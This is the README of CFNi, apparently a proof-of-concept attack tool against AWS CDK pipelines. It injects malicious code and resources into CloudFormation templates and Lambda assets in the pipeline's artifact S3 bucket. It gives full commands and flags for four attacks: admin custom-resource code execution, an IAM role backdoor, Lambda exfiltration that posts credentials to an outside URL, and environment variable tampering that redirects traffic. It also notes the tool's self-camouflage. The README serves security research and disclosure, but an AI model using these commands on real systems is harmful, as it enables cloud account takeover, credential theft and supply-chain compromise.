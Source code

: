 # CFNi - Cloudformation injection
![Build Status](https://github.com/hupe1980/cfni/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/cfni.svg)](https://pkg.go.dev/github.com/hupe1980/cfni)
> CFNi is a proof-of-concept to demonstrate an attack on the populare aws cdk pipeline. It takes advantage of the fact that between the "Synth" step and the use of the cloudformation templates and lambda assets some time passes ("SelfMutate") and no integrity check is performed by default. After receiving an event from s3, the lambda function injects the malicious code/resources into the generated files. SAST/DAST controls and pull request reviews are bypassed and other accounts can also be attacked if the pipeline supports crossaccount deployments.

:warning: This is for educational purpose. Don't try it without permission!

## IAM
CFNi is designed to use a secondary account that you have full access to. The lambda is deployed there. This eliminates the need to have the required permissions in the target account. The credentials for this account should be specified with the `--attacker-profile` flag.

The `--bucket-profile` should have s3:PutBucketNotification permission to the targeted S3 bucket.

The `--s3-access-key-id`, `--s3-secret-access-key` and optionally `--s3-session-token` should have s3:GetObject and s3:PutObject permissions on the target S3 bucket. These credentials are hardcoded into the lambda during deployment and used to read the bucket files and inject the malicious code/resources.

Everything can also only be done in the bucket account. To do this, the same profile must be specified for the `--attacker-profile` and `--bucket-profile` flags. If no access-key is specified, CFNi tries to give the LambaExecutionRole the required s3:GetObject and s3:PutObject permissions.

## Bucket
The relevant bucket can be found in the build project (Synth) under artifacts upload location.

![bucket](assets/artifacs_bucket.png)

## Attacks
The proof-of-concept currently supports the following attacks:
- [CFN Code Execution](#cfn-code-execution)
- [IAM Role Backdoor](#iam-role-backdoor)
- [Lamda Exfiltration](#lambda-exfiltration)
- [Lamda Set Envs](#lambda-set-envs)

### CFN Code Execution
Adds a custom resource with admin permission to run custom code

```
Usage:
  cfni cfn-code-execution [flags]

Examples:
cat > input.js << EOF
async function cfni(event, context) {
	console.log(event)
	return {}
}
EOF

cfni cfn-code-execution --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX -f input.js --runtime nodejs16.x

Flags:
  -b, --bucket string                 bucket name (required)
      --custom-type string            custom type of custom resource (default "CFNICustomResource")
      --environment strings           filter environments (default all environments)
  -f, --filename string               filename of the code execution file
  -h, --help                          help for cfn-code-execution
      --locigal-custom-id string      logical id of custom resource (default "CFNICustomResourceCE34F12B")
      --locigal-lambda-id string      logical id of lambda (default "CFNILambdaFB14A34E")
      --locigal-role-id string        logical id of role (default "CFNIRoleAF22D32D")
      --runtime string                runtime of the code execution
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```


### IAM Role Backdoor
Adds a role with admin permissions.

```
Usage:
  cfni iam-role-backdoor [flags]

Examples:
cfni iam-role-backdoor --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX

Flags:
  -b, --bucket string                 bucket name (required)  
      --environment strings           filter environments (default all environments)
  -h, --help                          help for iam-role-backdoor
      --logical-id string             logical id of the backdoor role (default "MaintenanceRoleBF21E41F")
  -p, --principal string              principal for backdoor role (default root principal of the attacker account)
  -r, --role-name string              name of the backdoor role (default generated role-name)
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Exfiltration
Injects a script that executes a post request with the lambda's environment variables as the body. access-key-id, secret-access-key and session-token are included in the payload.

```
Usage:
  cfni lambda-exfiltration [flags]

Examples:
cfni lambda-exfiltration --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --url https://xxxyem3.oastify.com

Flags:
  -b, --bucket string                 bucket name (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-exfiltration
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)
  -u, --url string                    exfiltration url (required)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Set Envs
Sets lambda environment variables.

```
Usage:
  cfni lambda-set-envs [flags]

Examples:
cfni lambda-set-envs --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --env API_URL=https://mitm.org

Flags:
  -b, --bucket string                 bucket name (required)
      --env stringToString            lambda environment variable (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-set-envs
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

## Camouflage
If the lambda is deployed in the bucket account, it camouflages itself ;o)

![camouflage](assets/camouflage.png)

## License
[MIT](LICENCE)